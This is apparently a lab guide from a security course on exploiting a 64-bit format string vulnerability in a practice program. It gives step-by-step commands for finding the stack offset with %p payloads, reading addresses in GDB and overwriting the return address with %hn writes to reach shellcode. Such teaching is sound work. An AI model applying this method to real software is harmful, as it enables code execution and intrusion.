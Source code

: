 # 🧪 64-Bit Format String Exploit Lab Guide

This guide walks you through exploiting a **64-bit format string vulnerability** to overwrite a return address and jump to custom shellcode.

We break the process into 3 main steps:

---

## ✅ Step 1: Calculate the Format String Offset

Before we can write to a target address using `%n` or `%hn`, we need to determine **which argument index** corresponds to our injected data on the stack.

### 1. Run the Format String Offset Finder

```bash
make clean
python3 format_offset_finder.py
```

This writes a payload of 60 `%p` format specifiers into `badfile`.

### 2. Run the Vulnerable Program

```bash
make
make run
```

You'll get an output similar to the following:

```
0x55555555a490 (nil) (nil) 0x78 (nil) 0x1 0x7fffffffdb20 0x7fffffffdb08 0x7fffffffdb00 0x7fffffffdbf0 0x55555555529a 0x7fffffffdd18 0x100000040 0x2520702520702520 ...
```

### 🧠 Why do you see `0x2520702520702520`?

This value represents the ASCII encoding of part of your format string:

```
0x25 = '%'
0x20 = ' '
0x70 = 'p'
```

So:
```
"% p% p% "  →  0x2520702520702520 (little-endian)
```

This confirms that your format string has landed on the stack.

---

### ✅ Determine the Argument Index

If `0x2520702520702520` appears at the **14th position**, then your format string starts at argument 14.

When building an exploit to overwrite the **return address**, which lies at an offset of 6 positions from the start of your format string, use:

```python
start_param = 14 + 6 = 20
```

This becomes the base argument index for your `%N$hn` writes.

---

## ✅ Step 2: Get Key Addresses

You need two important addresses:

1. The address of your input buffer (`str`) that contains the shellcode and format string
2. The base pointer (`rbp`) to calculate the location of the return address (`rbp + 8`)

### Instructions:

```bash
python3 fmtexploit_revised.py
gdb ./fmtvul
```

Inside GDB:

```gdb
break fmtstr
run
```

Once it hits the breakpoint:

```gdb
p $rbp     # Shows the base pointer
p str      # Shows the buffer address
```

For example:

```python
address_rbp =  0x7fffffffda60
address_str =  0x7fffffffda80
```

From this you can derive:

```python
address_ret = address_rbp + 8
address_binsh = address_str + 48 + 32  # 48: value, 32: address
```

## ✅ Step 3: Check

```gdb
gdb ./fmtvul
run
continue
```

## ✅ Step 4: Debug Safely Before Overwriting Return Address

### ⚠️ Why not write to the return address immediately?

If you overwrite the return address incorrectly, the program will `segfault` and you'll lose visibility into what happened.

### ✅ Safer approach:

Start by writing to a **non-critical address** in the stack, such as `0x7fffffffdb00`, which is part of your buffer (NOPs or unused space), and not:

- the return address
- or the shellcode region

### Instructions:

```gdb
x/40gx $rbp
```

Find a “safe” nearby address to test your `%N$hn` writes.

Once you confirm the format string correctly writes your target value to that test address, you can safely switch back to writing the real return address.

---